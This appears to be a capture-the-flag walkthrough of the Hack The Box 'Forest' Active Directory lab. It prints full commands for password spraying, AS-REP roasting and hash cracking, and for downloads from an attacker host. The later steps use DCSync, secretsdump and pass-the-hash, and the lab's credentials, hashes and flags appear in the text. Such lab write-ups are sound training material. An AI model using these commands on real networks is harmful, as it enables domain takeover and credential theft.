- nmapAutomator
- ldap
- Initial Foothold
- smb
- password spray user accts w/ custom password list
- getNPUsers.py
- privesc
- sharphound
- run SharpHound.exe on victim
- encode/copy/paste files back to attack machine
- OR set up smb share between attack and victim machines
- neo4j
- attackpath
- user/root
- Lessons Learned
forest

nmapAutomator
lets start off using Tib3rius' autorecon toolnmapautomator.sh 10.10.10.161 All
• nmap quickscan
• nmap basic scan
• nmap UDP scan
• nmap full scan
• nmap vulns scan
• Recon Recommendations

Notes:
1. Since the Kerberos and LDAP services are running, chances are we’re dealing with a Windows Active Directory box.
2. The nmap scan leaks the domain and hostname: htb.local and FOREST.htb.local. Similarly, the SMB OS nmap scan leaks the operating system: Windows Server 2016 Standard 14393.
3. Port 389 is running LDAP. We’ll need to query it for any useful information. Same goes for SMB.
4. The WSMan and WinRM services are open. If we find credentials through SMB or LDAP, we can use these services to remotely connect to the box.
nmap quickscan
nmap basic scan

nmap UDP scan


nmap full scan


nmap vulns scan
all failed*
Recon Recommendations
smb recon
ldap recon
ldap
thanks to naming context, we know the domain controller is htb, and localldapsearch -h 10.10.10.161 -x -s base namingcontexts

DC=htb, DC=local
recon suggestion from nmapAuto
we can enumerate the ldap service with ldapsearchldapsearch -x -h 10.10.10.161 -s base | tee recon/ldapsearch_10.10.10.161.txt

ldapsearch w/ DC
where


grep -i memberof
search objectclass person
ldapsearch -h 10.10.10.161 -x -b "DC=htb, DC=local" '(objectclass=person)'
we got santi rodriguez

sAMAccountName: santi
sAMAccountType: 805306368

we can filter our ldapsearch to only output information that's important to us
lets filter our search down to sAMAccountName and sAMAccountType

grep sAMAccountName
we're gathering all these AccountNames so we can password spray them
userlist.ldap
we're going to use grep and awk to put all these accounts into a fileldapsearch -h 10.10.10.161 -x -b "DC=htb, DC=local" '(objectclass=Person)' SAMAccountName SamAccountType | grep SAMAccountName | awk '{print $2}'

gives us a very clean list of users

we want to narrow these down to user accounts and not service accounts since those are automaticaly generated and practically impossible to crack
list ends up looking like this

extra username in rpcclient
rpclient domuser command shows us we're missing a user account!rpcclient -U '' 10.10.10.161

by connecting the rpc client and issuing enumdomusers we see
 is an account we missed!
is an account we missed!



svc-alfesco
Initial Foothold
smb
lets enumerate the smb share as well with smbmap/smbclientsmbmap -H 10.10.10.161

smbclient -L //10.10.10.161////

nothing here but we can try bruteforcing a login with userlist and pwlist
password spray user accts w/ custom password list
we want to save time and not use rockyou so we're going to make our own

we can add years to the list with a bashscript
for i in $(cat pwlist.txt); do echo $i; echo ${i}2019; echo ${i}2020; done


store the wordlist in a temp file t and mv it to pwlist.txt
for i in $(cat pwlist.txt); do echo $i; echo ${i}2019; echo ${i}2020; done > t

mv t pwlist.txt

it would be laughable if the password was in this list, but we can make the list much more complex with the help of hashcat
hashcat best64 rule
using the hashcat rule best64 will complexify our pwlisthashcat --force --stdout pwlist.txt -r /usr/share/hashcat/rules/best64.rule


this mutates our original password list and does a lot of really cool things!
add !s / toggle1.rule
our list doesnt have any exclamation points so lets go back and generate a wordlist that has themfor i in $(cat pwlist); do echo $i; echo ${i}\!; done

cat t

copy our temp wordlist t to pwlist.txt


we can also chain rules like toggles to mix uppercase and lower case letters

after using these rules we have a total of 50000+ passwords we're going to use!

make passwords length 7 minimum
last we're going to ensure our passwords are at least 7 characters longawk 'length($0) > 7' | wc -l

we see limiting our password list to have passwords to be at least 7 characters or greater has narrowed our list down from 50k to ~40k

output to t
and cp t pwlist.txt

crackmapexec

we can also do whats called a crackmapexec null authentication attempt
where we fille the username and password parameters with empty strings

it doesnt' work but it does allow domain enumeration (see child node)
important: thanks to null authentication enumeration we see that there is no account lockout and we're free to brute force

null authentication allows domain enumeration

domain enumeration


crackmapexec Brute Force
now that we've generated our password list, lets use our ldap userlist along with our custom password list and try to brute force our way into the smb sharecrackmapexec smb 10.10.10.161 -u userlist.ldap -p pwlist.txt

will run for a while so keep it open and keep checking back, will fail a lot!
heres a taste of the output

enum4linux
real ugly output so not going to bother pasting besides a few enumeration things we already found outenum4linux 10.10.10.161

users

getNPUsers.py
If kerberos pre-authentication is disabled on any of the box's accounts, we can use the GetNPUsers impacket script to send a dummy request for authentication. The Key Distribution Center KDC will then return a Ticket Generating Ticket TGT that is encrypted with the user's password. From there, we can take the encrypted TGT, run it through a password cracker and brute force the passwordGetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request


the Kerberos pre-authentication option has been disabled fr the user svc-alfresco and the KDC gave us back a TGT with the user's password
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4933542ada6053e22fa16eacac49dc5d$6f4f91cc61441ebca25cad737b2941e4349126068e0e575b7b13d0ff5b748acfb529e8d18353750a618ef3a16e506ad9e9beb93e932f2fc088357d0fe8e3180d69c572d7561d62d5dd31fce165b10088f3a79f6b0a7d31f1dd6209e08e42d14f540a909f2803b182d588a9f3171c99282c88d29c17e9774c7f69c0e60a9c12f2cb2f2440468f61684b8f6e992e2b10b7620c9bd8891e6f7978cdb665e29417df2bd6f2003373babc82a92d07a1e9cf5a8566da337aee509bccbc8975e5ec749f201158e24730c811a485b9d810ea92df5cf741591d8a98ed44295cb750cd29f755b85a26f63c
lets save the ticket to hash.txt
hashcat BF ticket

 so we know the module is either 13100 or 18200
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force


svc-alfresco
password = s3rvice
evil-winrm
now that we have the username and password we can use evil-winrm script to gain an initial foothold onto the box. This is only possible because the WinRM and WSMan services are openevil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

and we're in! we can grab the userflag
privesc
thanks to win-rm with svc-alfresco's credentials, we've gained an initial foothold on the boxwe can issue net user /domain to confirm the AD accounts


and check out what type of user svc-alfresco is

from this info we see svc-alfresco is both a domain user and a service account:

sharphound
from here lets run sharphound to see if there are any exploitable paths to privesc

we're going to want to download and run this file to our victim box on our svc-alfresco account
1) set up http server


2) get the latest version of bloodhound since it is updated regularly


3) Download SharpHound.exe onto our victim machine and run it
(new-object system.net.webclient).downloadfile('http://10.10.14.62:5555/SharpHound.exe', 'C:\Users\svc-alfresco\Documents\SharpHound.exe')


run SharpHound.exe on victim
.\SharpHound.exe -c all

encode/copy/paste files back to attack machine
we want to run
 on our attack machine
on our attack machineWe need to transfer the ZIP file to our attack machine. To do that, base64 encode the file.


certutil -encode
Then output the base64 encoded file.
Copy it and base64 decode it on the attack machine.

Drag and drop the zipped file into BloodHound. Then set the start node to be the svc-alfresco user.
OR set up smb share between attack and victim machines
first we want to set up our smb server on our attacking machine, we'll use impacket's -smbserver to initialize itimpacket -smbserver PleaseSubscribe $(pwd) -smb2support -user ippsec -password SupportMeOnPatreon
where
name is PleaseSubscribe
$(PWD) shares the current directory
-smb2support
-user set to ippsec
-password set to SupportMeOnPatreon

from here we need to store these credentials in a variable on our victim machine
1. set our password to the variable $pass
$pass= convertto-securestring ‘SupportMeOnPatreon’ -AsPlainText -Force
2. now we create a cred variable and add our username and pass

$cred = New-Object System.Management.Automation.PSCredential('ippsec', $pass)
3. now we connect to our smbserver from our victim machine with this command

New-PSDrive -Name ippsec -PSProvider FileSystem -Credential $cred -Root \\10.10.14.62\PleaseSubscribe
and we're connected! impacket server shoots back this message:
neo4j
lets set up the bloodhound database on our attacking machine:neo4j console
bloodhound
now lets run bloodhound from our attacking machine and load in our report file extracted from our victim
extracted from our victimnow drag and drop our zip file into bloodhound
mark the user svc_alfresco as owned

and query shortest path from owned Principals

shortest path from owned Principals

query: shortest path to domain admin from owned principles
This query shows that svc_alfresco is a member of the service accounts with is a member of the account operators which have WriteDacl Permissions which can create an account as administrator!
WritedACL Abuse info
we go over utilizing this abuse in the attackpath node:

(we also add -PrincipalIdentity <user> in this statement, more on this later)
report summary
attackpath
Create a user on the domain
net user <user> <password> /add /domain
net user /domain

we see our account
 was created
was createdAdd the user to the Exchange Windows Permission group
net group "Exchange Windows Permissions" /add steve
now to confirm our account was put into that group
net user steve
Give the user DcSync privileges
Give the user DCSync privileges. We’ll use PowerView for this. First download Powerview and setup a python server in the directory it resides in.(new-object system.net.webclient).downloadfile('http://10.10.14.62:5555/powerview.ps1', 'C:\Users\svc-alfresco\Documents\powerview.ps1')

Use the Add-DomainObjectAcl function in PowerView to give the user DCSync privileges.
$pass = convertto-securestring 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb\steve', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity steve -Rights DCSync

Add-DomainObjectAcl error
we see that the Add-DomainObjectAcl command is not recognized, lets see if the cmd is in our powerview.ps1 scriptgrep -i Add-Domain PowerView.ps1
no indication that Add-Domain is in our PowerView.ps1 script, lets download the dev version

Perform a DcSync attack and dump the password hashes of all the users on the domain
We're going to dump the password hashes using Impacket-Secretsdumpimpacket-secretsdump htb.local/steve:password@10.10.10.161
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Perform a Pass the Hash attack to get access to the administrator’s account
now to take the administrator's hash and pass it along with psexec.pyAdministrator's NTLM hash is: aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161


and we get a nt authority\system shell!
user/root
e5e4e47ae7022664cda6eb013fb0d9ed

f048153f202bbb2f82622b04d79129cc
Lessons Learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/